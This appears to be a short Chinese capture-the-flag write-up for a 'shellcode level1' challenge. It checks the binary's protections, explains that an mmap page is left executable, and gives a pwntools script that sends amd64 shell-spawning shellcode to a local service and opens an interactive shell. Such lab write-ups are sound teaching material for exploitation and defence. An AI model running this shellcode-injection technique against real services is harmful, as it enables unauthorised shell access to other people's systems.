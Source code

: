 # shellcode level1

## 文件分析

下载`shellcode_level1`, NX on, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

这次要我们选择内存单元执行，有stack, .bss, heap, mmap页等  
其中mmap分配时0页为rw-，后改为rwx；  
分配1页时为rwx，后改为---

只要输入4即可执行shellcode，同上题

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 33251)
sh.sendline(b'4') # mmap paper 0
shc = asm(shellcraft.amd64.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
